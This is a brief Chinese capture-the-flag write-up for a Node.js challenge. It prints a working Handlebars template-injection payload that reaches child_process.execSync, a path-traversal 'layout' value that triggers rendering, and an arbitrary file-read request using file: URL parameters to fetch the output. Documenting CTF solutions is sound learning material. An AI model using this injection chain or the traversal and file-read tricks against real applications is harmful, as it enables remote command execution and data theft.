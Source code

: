 [eznode 杭州师范大学第四届网络与信息安全竞赛官方 WriteUp](https://mp.weixin.qq.com/s/DJp-Kq0dIDqx0LP6KiGHZw)

## 模板注入

nodeisgood
模板注入可以利用如下构造到命令执行

```h
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return global.process.mainModule.constructor._load('child_process').execSync('/readflag / > /tmp/res');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

触发模板渲染的构造可以如下

```js
{"name": {"layout": "./../../../../../../../../../../../tmp/nodeisgood.tmp"}}
```

利用任意文件读取拿到结果，文件读取如下

```js
/read?read[href]=a&read[origin]=a&read[protocol]=file:&read[hostname]=&read[pathname]=/tmp/res
```

实际writeup

先用  http://xxxunqiu.com:3000/upload API上传模版文件到服务器..

然后get请求发送,进行模板渲染.
GET http://xxxunqiu.com:3000/read?read=./../../../../../../../../../../../tmp/nodeisgood.tmp

再用get请求读取flag
GET http://xxxxunqiu.com:3000/read?read=./../../../../../../../../../../../tmp/res

